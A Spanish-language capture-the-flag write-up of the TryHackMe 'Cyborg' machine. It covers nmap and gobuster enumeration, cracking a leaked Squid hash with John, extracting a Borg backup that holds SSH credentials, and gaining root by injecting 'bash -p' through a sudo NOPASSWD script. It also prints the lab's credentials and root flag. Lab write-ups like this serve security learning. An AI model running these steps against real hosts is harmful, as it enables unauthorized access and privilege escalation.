


# Cyborg — TryHackMe

**Plataforma:** TryHackMe
**Sistema operativo:** Linux (Ubuntu)
**IP objetivo:** `10.64.137.139`

## Resumen de la cadena de ataque

1. Enumeración web expone directorios `/admin` y `/etc` sin protección.
2. `/etc/squid/` filtra un archivo `passwd` con un hash MD5 tipo Apache (`$apr1$`) y `squid.conf`.
3. El hash se craquea con `john`, revelando la contraseña `squidward` para el usuario `music_archive`.
4. `/admin/archive.tar` contiene un repositorio completo de **BorgBackup**, cifrado con la misma contraseña `squidward`.
5. El backup extraído revela credenciales en texto plano del usuario `alex` (`alex:S3cretP@s3`), permitiendo acceso por SSH.
6. Enumeración de privilegios muestra un binario ejecutable vía `sudo` sin contraseña: `/etc/mp3backups/backup.sh`.
7. El script es vulnerable a **inyección de comandos** a través del flag `-c`, permitiendo ejecutar comandos arbitrarios como root.
8. Escalada de privilegios a root y captura de la flag final.

---

## 1. Reconocimiento — Nmap

### Escaneo completo de puertos

```bash
nmap -sS -p- -n -Pn --open --min-rate 5000 10.64.137.139 -oG Allports
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Detección de versiones y scripts por defecto

```bash
nmap -sCV -p22,80 -n -Pn 10.64.137.139 -oN Versions
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Métodos de autenticación SSH soportados

```bash
nmap --script ssh-auth-methods -p22 10.64.137.139 -n -Pn
```

```
| ssh-auth-methods:
|   Supported authentication methods:
|     publickey
|_    password
```

---

## 2. Enumeración web

### Fingerprinting con WhatWeb

```bash
whatweb http://10.64.137.139
```

```
http://10.64.137.139 [200 OK] Apache[2.4.18], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)]
```

### Fuzzing de directorios con Gobuster

```bash
gobuster dir -u http://10.64.137.139/ \
  -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 100
```

```
/admin                (Status: 301) [Size: 314] [--> http://10.64.137.139/admin/]
/etc                  (Status: 301) [Size: 312] [--> http://10.64.137.139/etc/]
```

### Enumeración de usuario (contexto de la máquina)

- Usuario: `Alex`
- Ubicación: United Kingdom
- Referencia: `my-studio`

---

## 3. Explotación inicial — filtración de credenciales

### Directorio `/etc/squid/` expuesto

   

**Archivo `passwd`:**
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

**Archivo `squid.conf`:**
```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

### Archivo `archive.tar` en `/admin/`

```

```

images/admin-archive-source.png
### Cracking del hash con John the Ripper

```bash
echo 'music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > hash.txt
john --format=md5crypt-long hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
squidward        (music_archive)
```

**Contraseña obtenida:** `squidward`

---

## 4. Repositorio BorgBackup

### Estructura del backup filtrado

```bash
tree home
```

```
home
└── field
    └── dev
        └── final_archive
            ├── config
            ├── data
            │   └── 0
            │       ├── 1
            │       ├── 3
            │       ├── 4
            │       └── 5
            ├── hints.5
            ├── index.5
            ├── integrity.5
            ├── nonce
            └── README
```

La estructura completa (`config`, `data/`, `hints.5`, `index.5`, `integrity.5`, `nonce`) confirma un repositorio **BorgBackup** válido en formato "repokey".

### Listado del repositorio

```bash
export BORG_PASSPHRASE='squidward'
borg list home/field/dev/final_archive
```

```
music_archive    Tue, 2020-12-29 08:00:38 [f789ddb6b0ec...]
```

### Extracción del snapshot

```bash
borg extract home/field/dev/final_archive::music_archive
```

```
home
├── alex
│   ├── Desktop
│   │   └── secret.txt
│   ├── Documents
│   │   └── note.txt
│   └── ...
└── field
    └── dev
        └── final_archive
```

### Archivos revelados

```bash
cat home/alex/Desktop/secret.txt
```
```
shoutout to all the people who have gotten to this stage whoop whoop!
```

```bash
cat home/alex/Documents/note.txt
```
```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

---

## 5. Acceso inicial — SSH

```bash
ssh alex@10.64.137.139
```




**Credenciales:** `alex:S3cretP@s3`

```bash
id
```
```
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

*Nota: aunque `alex` pertenece al grupo `sudo`, no tiene la contraseña de root, por lo que no puede usar `sudo` libremente — el vector de escalada real viene de un permiso específico (ver sección 6).*

---

## 6. Escalada de privilegios

### Enumeración de binarios SUID

```bash
find / -perm -4000 2>/dev/null
```

Ningún binario SUID no estándar llamó la atención — se descartó este vector.

### Permisos de sudo

```bash
sudo -l
```

```
User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

### Análisis del script vulnerable

```bash
ls -la /etc/mp3backups/backup.sh
```
```
-r-xr-xr-- 1 alex alex 1083 Dec 30  2020 /etc/mp3backups/backup.sh
```

El script pertenece a `alex` pero sin permiso de escritura, y el directorio es de `root`, así que no se puede modificar ni reemplazar directamente. Es necesario abusar de su lógica interna.

```bash
cat /etc/mp3backups/backup.sh
```

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt

input="/etc/mp3backups/backed_up_files.txt"

while getopts c: flag
do
	case "${flag}" in
		c) command=${OPTARG};;
	esac
done

backup_files="/home/alex/Music/song1.mp3 ... song12.mp3"
dest="/etc/mp3backups/"
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

echo "Backing up $backup_files to $dest/$archive_file"

tar czf $dest/$archive_file $backup_files

echo "Backup finished"

cmd=$($command)
echo $cmd
```

### Vulnerabilidad: inyección de comandos vía `getopts`

El script acepta un flag `-c`, almacena el valor recibido en la variable `command`, y al final lo ejecuta directamente mediante **command substitution** (`$($command)`) sin ningún tipo de sanitización. Como el script se ejecuta vía `sudo` sin solicitar contraseña (`NOPASSWD`), cualquier comando pasado en `-c` se ejecuta con privilegios de **root**.

### Explotación

```bash
sudo /etc/mp3backups/backup.sh -c "whoami"
```

La salida final del script confirma:
```
root
```

### Obtención de shell root

```bash
sudo /etc/mp3backups/backup.sh -c "bash -p"
```

```bash
whoami
```
```
root
```

---

## 7. Flags

**User flag:** `[user.txt — pendiente de documentar]`

**Root flag:**
```bash
cat /root/root.txt
```
```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

---

## Lecciones / puntos clave

- Directorios de configuración de servicios (`/etc/squid/`) nunca deberían quedar accesibles vía el servidor web.
- Reutilizar la misma contraseña entre un servicio (Squid) y un backup cifrado (Borg) permitió encadenar el acceso.
- Guardar credenciales en texto plano en archivos de notas es un riesgo clásico, incluso en entornos de práctica.
- Un binario permitido vía `sudo NOPASSWD` que acepta entrada de usuario no sanitizada y la ejecuta (directa o indirectamente) es una vía de escalada de privilegios crítica — siempre auditar qué hace realmente el script antes de confiar en la restricción de "solo puede correr este archivo".
